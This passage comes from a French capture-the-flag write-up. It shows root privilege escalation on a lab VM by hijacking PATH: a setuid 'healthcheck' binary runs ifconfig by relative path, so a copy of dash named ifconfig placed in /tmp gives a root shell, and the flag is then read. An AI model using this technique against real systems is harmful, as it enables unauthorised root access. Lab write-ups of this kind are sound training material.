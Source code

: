 Certains ne me parlent pas et d'autres semblent vraiment louches (comme `gpg`) mais c'est surtout le `healthcheck` qui me semble inhabituel.

Un coup de strings suffit pour me convaincre qu'il s'agit d'un binaire custom :

```shellsession
bash-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

C'est du très classique, on va exploiter le fait que ce programme privilégié lance des exécutables avec des paths relatifs et non absolus :

```shellsession
bash-4.1$ cd /tmp/
bash-4.1$ cp /bin/dash ifconfig
bash-4.1$ export PATH=.:$PATH
bash-4.1$ /usr/bin/healthcheck
'xterm-256color': unknown terminal type.
System Health Check

Scanning System
# id
uid=0(root) gid=0(root) groups=0(root),416(apache)
# cd /root
# ls
Desktop  Documents  drakx  healthcheck  healthcheck.c  root.txt  sudo.rpm  tmp
# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```

*Publié le 19 novembre 2022*


